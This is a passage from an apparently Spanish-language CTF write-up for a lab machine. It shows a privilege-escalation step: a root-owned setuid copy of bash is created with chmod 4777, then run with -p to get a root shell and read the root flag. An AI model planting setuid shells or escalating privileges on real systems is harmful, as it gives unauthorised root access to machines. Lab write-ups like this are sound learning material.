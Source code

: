 
---

## 🚪 Escalada con bash SUID

Creamos un binario de `bash`, lo hacemos SUID y lo usamos para escalar privilegios:

```bash
cp /bin/bash .
chown root:root bash
chmod 4777 bash
```

![Configurando bash con SUID](/assets/images/goodgames/18-bash-suid.png)
![Configurando bash con SUID](/assets/images/goodgames/18b-bash-suid.png)

---

## 👑 Shell privilegiada y flag de root

Ejecutamos el bash con `-p` para obtener privilegios de root y leemos `root.txt`.

```bash
./bash -p
cat /root/root.txt
```

![Obteniendo flag de root](/assets/images/goodgames/19-root-flag.png)

---
